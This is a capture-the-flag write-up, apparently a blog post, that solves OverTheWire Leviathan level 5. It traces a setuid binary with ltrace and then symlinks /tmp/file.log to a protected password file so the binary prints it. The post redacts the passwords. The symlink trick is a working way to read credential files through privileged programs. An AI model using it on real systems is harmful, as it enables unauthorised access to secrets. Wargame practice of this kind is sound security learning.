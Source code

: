 ```yaml
---
layout: post
date:   2021-04-18 09:00:00 +0100
categories: OverTheWire Leviathan
---
```



# Leviathan 5
```

Username: leviathan5
Password: redacted

Data for the levels can be found in **the homedirectories**. You can look at **/etc/leviathan\_pass** for the various level passwords.
```


## Lets take a look.

```bash
leviathan5@leviathan:~$ ls
leviathan5
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
```

## Another ltrace

```bin
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                               = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                         = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

## Mkay, lets create the file and re-do that

```bash
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                               = 0x804b008
fgetc(0x804b008)                                                          = '\377'
feof(0x804b008)                                                           = 1
fclose(0x804b008)                                                         = 0
getuid()                                                                  = 12005
setuid(12005)                                                             = 0
unlink("/tmp/file.log")                                                   = 0
+++ exited (status 0) +++
```

### So fopen opens the file and unlink removes the file. I'm guessing we need to use the whole file link as previous

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
redacted
```

VICTORY.

```
redacted 
```
